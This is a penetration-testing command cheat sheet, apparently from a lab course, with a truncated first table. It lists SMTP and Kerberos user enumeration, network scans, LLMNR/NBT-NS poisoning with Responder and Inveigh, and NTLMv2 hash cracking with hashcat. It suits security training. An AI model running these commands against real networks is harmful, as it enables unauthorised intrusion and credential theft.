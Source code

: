 | Command | Description |
|---------|-------------|
| `host -t MX microsoft.com` | DNS lookup for mail servers for the specified domain. |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"` | DNS lookup for mail servers for the specified domain. |
| `host -t A mail1.inlanefreight.htb.` | DNS lookup of the IPv4 address for the specified subdomain. |
| `telnet 10.10.110.20 25` | Connect to the SMTP server. |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7` | SMTP user enumeration using the RCPT command against the specified host. |
| `python3 o365spray.py --validate --domain msplaintext.xyz` | Verify the usage

# Active Directory

## General Commands

| Command | Description |
|---------|-------------|
| `nslookup ns1.inlanefreight.com` | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
| `sudo tcpdump -i ens224` | Used to start capturing network packets on the network interface proceeding the -i option on a Linux-based host. |
| `sudo responder -I ens224 -A` | Used to start responding to & analyzing LLMNR, NBT-NS and MDNS queries on the interface specified proceeding the -I option and operating in Passive Analysis mode which is activated using -A. Performed from a Linux-based host. |
| `fping -asgq 172.16.5.0/23` | Performs a ping sweep on the specified network segment from a Linux-based host. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an nmap scan with OS detection, version detection, script scanning, and traceroute enabled (-A) based on a list of hosts (hosts.txt) specified in the file proceeding -iL. Then outputs the scan results to the file specified after the -oN option. Performed from a Linux-based host. |
| `sudo git clone https://github.com/ropnop/kerbrute.git` | Uses git to clone the kerbrute tool from a Linux-based host. |
| `make help` | Used to list compiling options that are possible with make from a Linux-based host. |
| `sudo make all` | Used to compile a Kerbrute binary for multiple OS platforms and CPU architectures. |
| `./kerbrute_linux_amd64` | Used to test the chosen compiled Kerbrute binary from a Linux-based host. |
| `sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute` | Used to move the Kerbrute binary to a directory that can be set to be in a Linux user's path. Making it easier to use the tool. |
| `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Runs the Kerbrute tool to discover usernames in the domain (INLANEFREIGHT.LOCAL) specified proceeding the -d option and the associated domain controller specified proceeding --dc using a wordlist and outputs (-o) the results to a specified file. Performed from a Linux-based host. |

## LLMNR/NTB-NS Poisoning

| Command | Description |
|---------|-------------|
| `responder -h` | Used to display the usage instructions and various options available in Responder from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses hashcat to crack NTLMv2 (-m) hashes that were captured by responder and saved in a file (forend_ntlmv2). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1` | Using the Import-Module PowerShell cmdlet to import the Windows-based tool Inveigh.ps1. |
| `(Get-Command Invoke-Inveigh).Parameters` | Used to output many of the options & functionality available with Invoke-Inveigh. Performed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y` | Starts Inveigh on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe` | Starts the C# implementation of Inveigh from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host. |
